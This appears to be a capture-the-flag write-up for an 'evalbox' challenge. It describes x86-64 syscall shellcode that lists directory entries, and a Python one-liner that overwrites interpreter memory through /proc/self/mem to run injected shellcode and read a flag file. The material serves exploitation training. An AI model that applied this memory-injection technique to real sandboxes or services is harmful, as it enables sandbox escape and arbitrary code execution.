 ## evalbox
---
### part1: get the name of the file (path)

* openat
* int openat(int dirfd, const char *pathname, int flags);
* set the path name as /home/ctf, AT_FDCWD is set correctly in the dirfd then the path name is taken relatively.
* openat:  
    * rdi: first argument: AT_FDCWD: -100
    * rsi: pointer to the path
    * rdx: 0 for read only
    * rax: syscall number, 257

* getdents:
    * int getdents(unsigned int fd, struct linux_dirent *dirp,unsigned int count);
    * it just reads several structures called linux_dirents from the open fd directory

    ```
    struct linux_dirent {
        unsigned long  d_ino;     /* Inode number */
        unsigned long  d_off;     /* Offset to next linux_dirent */
        unsigned short d_reclen;  /* Length of this linux_dirent */
        char           d_name[];  /* Filename (null-terminated) */
                            /* length is actually (d_reclen - 2 -
                            offsetof(struct linux_dirent, d_name) */
        /*
        char           pad;       // Zero padding byte
        char           d_type;    // File type (only since Linux 2.6.4;
                                // offset is (d_reclen - 1))
        */

    }
    ```

    * rdi: eax: which is the fd returned by the openat syscall
    * rsi: whatever is on top of the stack.
    * rdx: 0x1000 : buffer size of the dirent
    * rax: syscall for getdents: 78

> now recursive code to print out the names of the path with functions

```
r15 = rax: number of bytes read in.
r14 = 0
edx = 0

lp:
    write(1, rsp+r14+18, 20)
    write(newline)

    dx = *(rsp+r14+16)
    add r14d, edx
    cmp r14, r15
    jl lp

    exit()
    basically iterating through the linux_dirent and printing all the names inside it.
```

### finally the code (confusing):

#### code: 
* map to do a function to all the things in the iterable.
* all is just to check if everything worked, iterations in the map functions.

#### Virtual memory:
* the `/proc/` helps to represent the current state of the kernal
* /proc/self/maps: gives the memory mappings of the file.
* /proc/self/mem: memory held by the process.

```py
code = f"""
all(map(
    lambda fs: [
        fs[1].seek(int(fs[0].read(12), 16)+0x18ebb8, 0),
        fs[1].write({shellcode}),
        fs[1].flush(),
        input()
    ],
    [(open("/proc/self/maps"), open("/proc/self/mem", "wb"))]
))
""".replace("\n", "")
```

* get the first memory mapping address from the /proc/self/maps
* seek to a particular offset (which is somewhere in the _Py_read).
* write our shellcode at that memory offset
* flush the data
* Next time the read function is called we get the shell as the shellcode is excecuted.

### part 2:

* just do the same process this time you can just do open read write on the flag-(some md5).txt.
